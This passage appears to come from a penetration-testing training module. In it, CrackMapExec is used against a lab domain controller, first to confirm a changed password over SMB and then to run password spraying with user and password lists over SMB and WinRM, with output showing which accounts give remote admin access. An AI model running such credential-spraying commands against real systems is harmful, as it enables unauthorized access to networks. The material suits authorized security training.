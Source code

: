 We can now authenticate with the new password.

```shell-session
$ crackmapexec smb 10.129.203.121 -u peter -p Password123

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\peter:Password123
```

***

## Target Protocol WinRM

By default, [Windows Remote Management (WinRM)](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) service, which is essentially designed for remote administration, allows us to execute PowerShell commands on a target. WinRM is enabled by default on Windows Server 2012 R2 / 2016 / 2019 on ports TCP/5985 (HTTP) and TCP/5986 (HTTPS). PowerShell Remoting uses [Windows Remote Management (WinRM)](https://learn.microsoft.com/en-us/windows/win32/winrm/portal), which is the Microsoft implementation of the [Web Services for Management (WS-Management)](https://www.dmtf.org/sites/default/files/standards/documents/DSP0226_1.2.0.pdf) protocol.

To connect to the WinRM service on a remote computer, we need to have local administrator privileges, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

WinRM is not the best protocol to identify if a password is valid because it will only indicate that the account is valid if it has access to WinRM. In this scenario, we can test the three (3) accounts we have found and use the `--no-bruteforce` option to see if any of those three (3) accounts have access to WinRM.

### **WinRM - Password Spraying**

```shell-session
$ crackmapexec smb 10.129.203.121 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\peter:Password123
```

```shell-session
$ crackmapexec winrm 10.129.203.121 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success
SMB         10.129.203.121  5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
HTTP        10.129.203.121  5985   DC01             [*] http://10.129.203.121:5985/wsman
WINRM       10.129.203.121  5985   DC01             [-] inlanefreight.htb\grace:Inlanefreight01!
WINRM       10.129.203.121  5985   DC01             [-] inlanefreight.htb\robert:Inlanefreight01!
WINRM       10.129.203.121  5985   DC01             [+] inlanefreight.htb\peter:Password123 (Pwn3d!)
```
